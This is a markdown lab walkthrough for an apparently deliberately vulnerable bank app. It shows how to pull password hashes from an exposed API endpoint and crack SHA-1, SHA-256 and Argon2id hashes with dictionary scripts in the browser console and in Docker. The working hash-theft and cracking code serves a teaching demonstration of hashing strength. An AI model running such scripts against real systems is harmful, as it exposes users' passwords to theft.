




# Stealing and Cracking Password Hashes

Hashing is covered in hashing.md, and is a feature of the working app. It has already been implemented with a toggle button that will be used to switch between states during this demonstration. This document will detail how to steal password hashes, and then use this data with offline scripts to try to find matching hashes, which then reveals the plaintext passwords. This is a dictionary attack that can be run offline using the provided scripts. 

## Prerequisites
- Access the web app through a browser
- Have a preferred editor and terminal open (e.g., VS Code)
- Keep vulnerability mitigations toggled off (Vulnerable/Non-Hardened State) during the entire demonstration

## Demonstrations

To steal and crack the password hashes in the different hashing states, users will have to confirm they are in the right mode, e.g., weak, medium, strong, various. This will require using the browser console and the network tab to locate and steal the password hashes. The console/terminal results will indicate which hashes matched or were verified with Argon2id.

### Weak (SHA-1)

1. Toggle the hashing mode to 'Weak'
2. Open the browser console, and enter:
    ```js
    fetch('/api/hashmode').then(r=>r.json()).then(console.log)
    ```
    Confirm mode is correct.
3. Still in the browser console, enter:
    ```js
    fetch('/api/hashed-passwords').then(r=>r.json()).then(console.log)
    ```
4. Run the script below

```js
(async () => {
  const COMMON_CANDIDATES = [
    "123456","password","Password","1234567890","qwerty","letmein","admin","admin123"
  ];

  async function sha1hex(msg) {
    const buf = new TextEncoder().encode(msg);
    const digest = await crypto.subtle.digest("SHA-1", buf);
    return [...new Uint8Array(digest)].map(b => b.toString(16).padStart(2,"0")).join("");
  }

  const mode = await fetch('/api/hashmode').then(r=>r.json());
  console.log("MODE:", mode);

  const rows = await fetch('/api/hashed-passwords').then(r=>r.json());

  const cracked = [];
  for (const [user, stored] of rows) {
    if (!stored?.startsWith("sha1$")) continue;
    const target = stored.split("$",2)[1];

    for (const cand of COMMON_CANDIDATES) {
      const computed = await sha1hex(cand);
      if (computed === target) {
        cracked.push({
          user,
          mode: "Weak",
          algo: "SHA-1",
          password: cand,
          stored_hash: target,
          computed_hash: computed,
          match: true
        });
        break;
      }
    }
  }

  console.log("Weak (SHA-1) cracked:", cracked.length);
  console.table(cracked);
})();
```



### Medium (SHA-256)

1. Toggle the hashing mode to 'Medium'
2. Open the browser console, and enter:
    ```js
    fetch('/api/hashmode').then(r=>r.json()).then(console.log)
    ```
    Confirm mode is correct.
3. Still in the browser console, enter:
    ```js
    fetch('/api/hashed-passwords').then(r=>r.json()).then(console.log)
    ```
4. Run the script below

```js
(async () => {
  const COMMON_CANDIDATES = [
    "123456","password","Password","1234567890","qwerty","letmein","admin","admin123"
  ];

  async function sha256hex(msg) {
    const buf = new TextEncoder().encode(msg);
    const digest = await crypto.subtle.digest("SHA-256", buf);
    return [...new Uint8Array(digest)].map(b => b.toString(16).padStart(2,"0")).join("");
  }

  const mode = await fetch('/api/hashmode').then(r=>r.json());
  console.log("MODE:", mode);

  const rows = await fetch('/api/hashed-passwords').then(r=>r.json());

  const cracked = [];
  for (const [user, stored] of rows) {
    if (!stored?.startsWith("sha256$")) continue;
    const target = stored.split("$",2)[1];

    for (const cand of COMMON_CANDIDATES) {
      const computed = await sha256hex(cand);
      if (computed === target) {
        cracked.push({
          user,
          mode: "Medium",
          algo: "SHA-256",
          password: cand,
          stored_hash: target,
          computed_hash: computed,
          match: true
        });
        break;
      }
    }
  }

  console.log("Medium (SHA-256) cracked:", cracked.length);
  console.table(cracked);
})();
```



### Strong (Argon2id)

Browser console will not support this, so a different terminal running the Docker container will be required. An editor is also recommended, because this script will require users to enter the exact hashes (this accounts for salting). 

1. Toggle the hashing mode to 'Strong'
2. Open the browser console, and enter:
    ```js
    fetch('/api/hashmode').then(r=>r.json()).then(console.log)
    ```
    Confirm mode is correct.
3. Still in the browser console, enter:
    ```js
    fetch('/api/hashed-passwords').then(r=>r.json()).then(console.log)
    ```
4. Go to the Network tab and locate the /hashed-passwords request. From there, look for the JSON Response, and copy it in its entirety.
5. Paste the response over the PASTE_HERE line below, preferably in an editor.

```powershell
$STRONG = @'
PASTE_HERE
'@

$STRONG | docker exec -i vuln-bank-467_w26-web-1 python -c "
import sys,json
from argon2 import PasswordHasher
from argon2.exceptions import VerifyMismatchError, InvalidHashError

C=['123456','password','Password','1234567890','qwerty','letmein','admin','admin123']
rows=json.loads(sys.stdin.read())
ph=PasswordHasher()

cracked=[]
checked=0
for u,s in rows:
    if not isinstance(s,str) or not s.startswith('argon2id$'):
        continue
    _,argon=s.split('$',1)
    checked += 1
    for cand in C:
        try:
            if ph.verify(argon,cand):
                cracked.append((u,cand))
                break
        except (VerifyMismatchError,InvalidHashError):
            pass

print('MODE: Strong (Argon2id)')
print('Rows checked:', checked)
print('Cracked:', len(cracked))
for u,p in cracked:
    print(f'- {u} => {p}')
"
```

6. Confirm your terminal has the running container by running 'docker ps' and idenifying it
7. Paste your updated script into the terminal and run it



### Various (Mixed)

Browser console will not support this, so a different terminal running the Docker container will be required. An editor is also recommended, because this script will require users to enter the exact hashes (this accounts for salting). 

1. Toggle the hashing mode to 'Various'
2. Open the browser console, and enter:
    ```js
    fetch('/api/hashmode').then(r=>r.json()).then(console.log)
    ```
    Confirm mode is correct.
3. Still in the browser console, enter:
    ```js
    fetch('/api/hashed-passwords').then(r=>r.json()).then(console.log)
    ```
4. Go to the Network tab and locate the /hashed-passwords request. From there, look for the JSON Response, and copy it in its entirety.
5. Paste the response over the PASTE_HERE line below, preferably in an editor.

```powershell
$VARIOUS = @'
PASTE_HERE
'@

$VARIOUS | docker exec -i vuln-bank-467_w26-web-1 python -c "
import sys,json,hashlib
from argon2 import PasswordHasher
from argon2.exceptions import VerifyMismatchError, InvalidHashError

C=['123456','password','Password','1234567890','qwerty','letmein','admin','admin123']
rows=json.loads(sys.stdin.read())
ph=PasswordHasher()

cracked=[]
for u,s in rows:
    if not isinstance(s,str):
        continue

    if s.startswith('sha1$'):
        target=s.split('$',1)[1]
        for cand in C:
            if hashlib.sha1(cand.encode()).hexdigest()==target:
                cracked.append((u,'sha1',cand))
                break

    elif s.startswith('sha256$'):
        target=s.split('$',1)[1]
        for cand in C:
            if hashlib.sha256(cand.encode()).hexdigest()==target:
                cracked.append((u,'sha256',cand))
                break

    elif s.startswith('argon2id$'):
        _,argon=s.split('$',1)
        for cand in C:
            try:
                if ph.verify(argon,cand):
                    cracked.append((u,'argon2id',cand))
                    break
            except (VerifyMismatchError,InvalidHashError):
                pass

print('MODE: Various (Mixed)')
print('Cracked:', len(cracked))
for u,algo,pw in cracked:
    print(f'- {u} [{algo}] => {pw}')
"
```

6. Confirm your terminal has the running container by running 'docker ps' and idenifying it
7. Paste your updated script into the terminal and run it



### Results

In this case, there were always some cracked passwords, because both the stored passwords and the password dictionary for the attack were small, as well as designed to obtain some matches for the demo. Users should observe different times for the different attacks. 'Weak' should be nearly instant, while 'Strong' should take a few more seconds, illustrating the varying costs of attacks using different hashing implementations. However, with a much larger data pool, the cost can quickly rise. If it takes too much time or too many resources to steal passwords, the attacks will be deterred. This further validates the need to incorporate strong cryptography in any app's security implementation that requires it.